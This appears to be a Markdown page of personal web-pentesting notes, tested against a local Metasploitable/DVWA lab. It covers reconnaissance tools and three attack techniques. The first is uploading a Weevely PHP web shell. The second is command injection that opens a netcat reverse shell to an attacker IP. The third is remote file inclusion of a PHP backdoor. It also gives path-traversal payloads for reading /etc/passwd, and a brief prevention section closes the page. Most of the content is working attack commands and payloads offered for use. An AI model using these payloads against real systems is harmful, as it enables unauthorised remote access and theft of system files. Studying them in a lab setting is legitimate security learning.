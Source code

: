 # How to hack a website
-   Since website is an application is an application installed on a "computer" all is applicable as before mentioned in the whole repo (server side attacks / client side attacks)
-   second possible way is the pen testing of the website
-   All was tested on the metasploitable linux running locally inside VMware. 
    -   On DVWA page (login: admin, password) was security set to low. 
    -   Mutillidae security set also to lowest level.

## Information gathering
-   IP addresses / domain name info, technology used / other websites on the same server / DNS records / unlisted files, sub-domains, directories
-   Tools:
    -   Whois Lookup - find info about the owner of the website
        -   https://whois.domaintools.com/
    -   Netcraft Site Report - technologies used on website
        -   https://sitereport.netcraft.com/
        -   to find the vulnerabilities in used technologies, many dbs exist (example: https://www.exploit-db.com/)
    -   Robtex DNS lookup - DNS information
        -   https://www.robtex.com/
        -   reverse lookup can help to get names of more websites installed on the same server. If it is not possible to hack to the desired website, try to hac to any other hosted website and then navigate to the desired website in shell ...
            -   other way to do reverse lookup is using bing.com. Put in search `ip: desired.ip.address.something`
    -   knockpy - search subdomains
        -   tool can be installed into Kali linux.
        -   usage: `knockpy desiredomain.com`
    -   dirb - discover sensitive files and directories based on wordlist
        -   can be installed on Kali linux
        -   brute force search on the website for all the mentioned
        -   for usage manual `man dirb`
        -   search for staff like `phpinfo` or `login` or `robots`

## Upload vulnerable file generated with Weevely
-   some websites allow to upload files without any check for the file
-   Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.
-   Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.
```bash
weevely generate 123456 shell.php # generates php agent with password 123456 to file shell.php
```
-   try to upload the generated PHP agent `shell.php` to the site. If it works try to connect to the website shell:
```bash
weevely http://website.url/uploads_path/shell.php 123456
```
-   this can be tested with metasplitable linux: ip_address/dvwa/vulnerabilities/upload/

## Code execution vulnerabilities
-   some input boxes on websites might allow the attacker to execute commands if the input is not checked. Same works for the SQL injection
-   try to run some one-line commands. Example if website allows ping: `8.8.8.8; pwd`. If it will print the ping and also current dir, then the inputbox is vulnerable.
-   this vulnerability can also be used to create backdoor:
    -   then just listen with metasploit as described in `08_client_side_attacks.MD` or use netcad:
        ```bash
        nc -vv -l -p 8080 ## -vv is to show all the output (verbose), -l listen, -p port
        ```
    -   put in the website vulnerable input: `8.8.8.8; nc -e /bin/sh 10.20.14.203 8080`. Change the IP address to the address of the attacker (if not in the same network, set the attacker's router port forwarding as in `12_hack_outside_local_network.MD`)
-   this can be tested with metasplitable linux: ip_address/dvwa/vulnerabilities/exec/

## Run file from different website 
-   same thing can be done with files uploaded from online
    -   just create simple php file, which will run desirable command and upload it to attacker server. Example for backdoor:
        ```php
        <?php
        passthru('nc -e /bin/sh 10.20.14.203 8080');
        ?>
        ```
    -   save file as txt, so it won't run on the attacker server
    -   listen to connections with netcat as above `nc -vv -l -p 8080`
    -   put it inside the url like: `site_url/?page=attacker_page/backdoor_file.txt`

## Find vulnerability in files stored locally on the website
-   play with URL. If the URL of any website is showing partly absolute paths or has links like `?page=include.php`, try to find any useful files. Some pages will show error like file not found and full path like `/var/www/html/.../include.php not found`
    -   if site shows full path like mentioned in the error message, try to find files in server like file with users and password in Linux (example `/etc/passwd`). 
        -   Example of usage: `website.url/?page=/../../../etc/passwd`, which might print the file with users

## Preventing vulnerabilities mentioned above
-   check the file type, don't allow user to upload any executable
-   Filter input (input validation), don't run dangerous functions
-   Disable allow_url_fopen & allow_url_include
    -   can be set in `/etc/php5/cgi/php.ini`
    -   check that the options are set to Off
-   Use static file inclusion (hardcoded file names)